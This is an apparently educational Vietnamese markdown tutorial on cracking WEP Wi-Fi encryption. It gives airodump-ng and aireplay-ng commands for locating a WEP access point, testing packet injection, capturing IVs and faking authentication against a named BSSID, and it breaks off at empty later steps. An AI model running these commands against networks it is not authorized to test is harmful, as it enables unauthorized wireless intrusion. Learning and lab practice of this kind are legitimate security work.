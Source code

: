 # Airodump-ng + Aircrack-ng + Aireplay-ng

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```

![Dùng airodump tìm kiếm access point](images/airodumpforvictim.png)

Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **a Tan 99 muon ket ban 4 phuong**
- Channel: **11**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 11
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```

![Test packet injection](images/testinjectionpacket.png)

Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt các IV

Ở bước này sử dụng công cụ **airodump-ng** để bắt các IV được AP tạo ra.

```sh
$ airodump-ng -c 11 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```

![Test packet injection](images/airodumpforiv.png)

## Bước 4 -

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h 8C:F5:A3:1E:4E:37 wlan0mon
```

![](images/aireplay1.png)

## Bước 5 -

